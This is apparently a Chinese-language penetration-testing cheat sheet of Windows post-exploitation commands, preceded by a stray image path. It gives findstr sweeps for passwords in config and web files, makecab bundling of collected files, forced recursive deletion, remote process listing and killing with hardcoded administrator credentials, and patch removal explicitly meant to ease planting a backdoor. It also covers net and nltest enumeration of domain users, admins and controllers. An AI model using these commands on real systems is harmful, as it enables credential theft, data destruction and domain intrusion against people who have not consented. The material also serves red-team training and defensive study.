 ```
```

批量压缩指定文件,注意,list.txt里存放的是所有要打包文件的绝对路径:
```
# makecab /f list.txt /d compressiontype=lzx /d compressionmemory=21 /d maxdisksize=1024000000 /d diskdirectorytemplate=dd* /d cabinetnametemplate=dd*.cab
```

在指定目录下搜集各种账号密码
```
# findstr /si pass *.inc *.config *.ini *.txt *.asp *.aspx *.php *.jsp *.xml *.cgi *.bak 
# findstr /si userpwd *.inc *.config *.ini *.txt *.asp *.aspx *.php *.jsp *.xml *.cgi *.bak 
# findstr /si pwd *.inc *.config *.ini *.txt *.asp *.aspx *.php *.jsp *.xml *.cgi *.bak 
# findstr /si login *.inc *.config *.ini *.txt *.asp *.aspx *.php *.jsp *.xml *.cgi *.bak 
# findstr /si user *.inc *.config *.ini *.txt *.asp *.aspx *.php *.jsp *.xml *.cgi *.bak 
```

查看,删除 指定文件:
```
# type ad\admin_pass.bak		查看某个文件内容
# del d:\ad\*.* /a /s /q /f 		强制删除指定路径下的所有文件
# tree /F /A D:\ >> file_list.txt	导出指定路径下的文件目录结构
```

查看当前机器的进程信息:
```
# tasklist /svc		显示当前机器所有的进程所对应的服务[只限于当前用户又权限看到的进程]
# tasklist /m		显示本地所有进程所调用的dll[同样只限于当前用户又权限看到的进程]
# tasklist /S 192.168.3.122 /v /U administrator /P "admin!@#123"		 查看远程指定机器的进程列表
# tasklist /S 192.168.3.122 /v /U KLIONSEC\administrator /P "admin!@#123"	 域内可以直接用机器名来代替

# taskkill /im calc.exe	用指定进程名的方式结束指定进程
# taskkill /S 192.168.3.122 /pid 3440 /U KLIONSEC\administrator /P "admin!@#123" 结束远程机器上的指定进程

# wusa /uninstall /KB:2999226 /quiet /norestart 	不重启卸载指定系统补丁,方便留后门,前提是权限要够
# driverquery		查看当前机器安装的驱动列表
# restart /r /t 0	立即重启当前机器
```
### \#0x01 域内net及dsquery套件使用

利用常规net套件搜集域内信息
```
# net user /domain 		查看当前域中的所有用户名,根据用户名总数大概判断域的规模
# net user epoadmin /domain 	查看指定用户在当前域中的详细属性信息
# net view 			正常情况下可以用该命令查看当前域中在线的机器有哪些,但这样看着确实不太直观,稍微用批处理搞一下把机器名对应的ip也显示出来,岂不更畅快
# net accounts /domain 		查看当前域的域内账户密码设置策略
# net config workstation    	看看当前的登录域
# net view /domain       	查看所有的域名称
# net view /domain:PROGRAM 	查看指定域中在线的计算机列表
# net time /domain		查看主域位置,一般都会把主域作为时间服务器
# net group /domain		查看当前域中的所有组名
# net group "domain admins" /domain 	 看看当前域中的域管都有谁
# net group "domain computers" /domain 	 看看当前域中的所有的计算机名,只要登录过该域计算机名都会被保存下来,并非当前在线机器
# net group "domain controllers" /domain 看看域控是哪几个
# nltest /domain_trusts 		 查看域内信任关系
```
